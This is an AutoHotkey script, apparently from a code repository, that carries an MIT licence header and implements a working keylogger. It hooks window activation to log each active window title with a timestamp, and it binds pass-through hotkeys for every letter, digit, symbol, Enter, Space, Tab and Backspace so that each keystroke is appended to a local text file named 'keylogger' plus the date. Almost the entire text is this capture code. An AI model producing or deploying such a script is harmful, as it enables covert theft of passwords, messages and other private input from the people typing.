 # teatyy
; ; AutoHotkey Version: 1.x ; Author: A.N.Other &lt;myemail@nowhere.com> ; Original Forum: http://www.autohotkey.com/board/topic/30294-simple-key-stroke-recorder/ ; Script Function: ;    Template script (you can customize this template by editing "ShellNew\Template.ahk" in your Windows folder) ;  /* Copyright MIT  Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:  The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.  THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE. */  #NoEnv SendMode Input SetWorkingDir %A_ScriptDir%   ; Below sets the filename. Currently, "keylogger" plus the date in the below format. It also always saves to the same folder as this script. Feel free to adjust the name convention as desired  FormatTime, DateFile, YYYYMMDDHH24MISS, MM-dd-yyyy filename := % "keylogger" DateFile  ; Detect hidden windows since they can be active ; (e.g. AutoHotkey main window while using Menu,MenuName,Show.) DetectHiddenWindows, On  ; First time it is run, it saves the fully formatted time.  FormatTime, TimeString start := "`n`n ---------------------`n`n Startin at: " . TimeString . "`n`n"  FileAppend, ( %start% ), %A_ScriptDir%\%filename%.txt  Gui +LastFound hWnd := WinExist() DllCall( "RegisterShellHookWindow", UInt,Hwnd ) MsgNum := DllCall( "RegisterWindowMessage", Str,"SHELLHOOK" ) OnMessage( MsgNum, "ShellMessage" )   ShellMessage( wParam,lParam ) { WinGetTitle, title, ahk_id %lParam% Sleep, 1000 If (wParam=32772) { ;HSHELL_WINDOWACTIVATED FormatTime, TimeString, YYYYMMDDHH24MISS, ss:mm:hhtt-MM-dd-yyyy  /* This saves the window and time whenever the window changes. You can adjust the time format the line above, or remove the time altogether by removing %TimeString% below. */  FileAppend, ( `n Window Title: %Title% %TimeString% `n ), %A_ScriptDir%\%filename%.txt } }   ~a::fileappend, a, %filename%.txt ~b::fileappend, b, %filename%.txt ~c::fileappend, c, %filename%.txt ~d::fileappend, d, %filename%.txt ~e::fileappend, e, %filename%.txt ~f::fileappend, f, %filename%.txt ~g::fileappend, g, %filename%.txt ~h::fileappend, h, %filename%.txt ~i::fileappend, i, %filename%.txt ~j::fileappend, j, %filename%.txt ~k::fileappend, k, %filename%.txt ~l::fileappend, l, %filename%.txt ~m::fileappend, m, %filename%.txt ~n::fileappend, n, %filename%.txt ~o::fileappend, o, %filename%.txt ~p::fileappend, p, %filename%.txt ~q::fileappend, q, %filename%.txt ~r::fileappend, r, %filename%.txt ~s::fileappend, s, %filename%.txt ~t::fileappend, t, %filename%.txt ~u::fileappend, u, %filename%.txt ~v::fileappend, v, %filename%.txt ~w::fileappend, w, %filename%.txt ~x::fileappend, x, %filename%.txt ~y::fileappend, y, %filename%.txt ~z::fileappend, z, %filename%.txt ~+A::fileappend, B, %filename%.txt ~+B::fileappend, B, %filename%.txt ~+C::fileappend, C, %filename%.txt ~+D::fileappend, D, %filename%.txt ~+E::fileappend, E, %filename%.txt ~+F::fileappend, F, %filename%.txt ~+G::fileappend, G, %filename%.txt ~+H::fileappend, H, %filename%.txt ~+I::fileappend, I, %filename%.txt ~+J::fileappend, J, %filename%.txt ~+K::fileappend, K, %filename%.txt ~+L::fileappend, L, %filename%.txt ~+M::fileappend, M, %filename%.txt ~+N::fileappend, N, %filename%.txt ~+O::fileappend, O, %filename%.txt ~+P::fileappend, P, %filename%.txt ~+Q::fileappend, Q, %filename%.txt ~+R::fileappend, R, %filename%.txt ~+S::fileappend, S, %filename%.txt ~+T::fileappend, T, %filename%.txt ~+U::fileappend, U, %filename%.txt ~+V::fileappend, V, %filename%.txt ~+W::fileappend, W, %filename%.txt ~+X::fileappend, X, %filename%.txt ~+Y::fileappend, Y, %filename%.txt ~+Z::fileappend, Z, %filename%.txt ~`::fileappend, `, %filename%.txt ~!::fileappend, !, %filename%.txt ~@::fileappend, @, %filename%.txt ~#::fileappend, #, %filename%.txt ~$::fileappend, $, %filename%.txt ~^::fileappend, ^, %filename%.txt ~&amp;::fileappend, &amp;, %filename%.txt ~*::fileappend, *, %filename%.txt ~(::fileappend, (, %filename%.txt ~)::fileappend, ), %filename%.txt ~-::fileappend, -, %filename%.txt ~_::fileappend, _, %filename%.txt ~=::fileappend, =, %filename%.txt ~+::fileappend, +, %filename%.txt ~[::fileappend, [, %filename%.txt ~{::fileappend, {, %filename%.txt ~]::fileappend, ], %filename%.txt ~}::fileappend, }, %filename%.txt ~\::fileappend, \, %filename%.txt ~|::fileappend, |, %filename%.txt ~;::fileappend, ;, %filename%.txt ~'::fileappend, ', %filename%.txt ~&lt;::fileappend, &lt;, %filename%.txt ~.::fileappend, ., %filename%.txt ~>::fileappend, >, %filename%.txt ~/::fileappend, /, %filename%.txt ~?::fileappend, ?, %filename%.txt ~enter::fileappend, `n, %filename%.txt ~space::fileappend, %A_Space%, %filename%.txt ~tab::fileappend, {tab}, %filename%.txt ~backspace::fileappend, {Back}, %filename%.txt ~1::fileappend, 1, %filename%.txt ~2::fileappend, 2, %filename%.txt ~3::fileappend, 3, %filename%.txt ~4::fileappend, 4, %filename%.txt ~5::fileappend, 5, %filename%.txt ~6::fileappend, 6, %filename%.txt ~7::fileappend, 7, %filename%.txt ~8::fileappend, 8, %filename%.txt ~9::fileappend, 9, %filename%.txt ~0::fileappend, 0, %filename%.txt  
